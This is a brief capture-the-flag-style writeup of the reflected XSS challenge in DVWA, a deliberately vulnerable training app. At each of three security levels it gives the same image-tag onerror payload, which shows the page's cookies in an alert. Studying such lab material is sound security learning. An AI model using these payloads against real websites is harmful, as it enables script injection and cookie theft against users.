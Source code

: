 ```yaml
---
title: "Reflected Cross Site Scripting (XSS) - DVWA"
description: ""
summary: "Trigger an alert pop-up with cookie values using Reflected XSS."
date: 2022-08-17
draft: false
tags: ["writeups", "challenge", "DVWA", "Reflected XSS"]
---
```



### **Security level: low**

we have name field which is reflecting on page.

payload=`<img src=x onerror="alert(document.cookie)">`

It triggers an alert pop up with cookie value.


### **Security level: medium**

_payload of low level also works here: _

payload=`<img src=x onerror="alert(document.cookie)">`


### **Security level: high**

_payload of low level also works here: _

payload=`<img src=x onerror="alert(document.cookie)">`

Happy Hacking

---
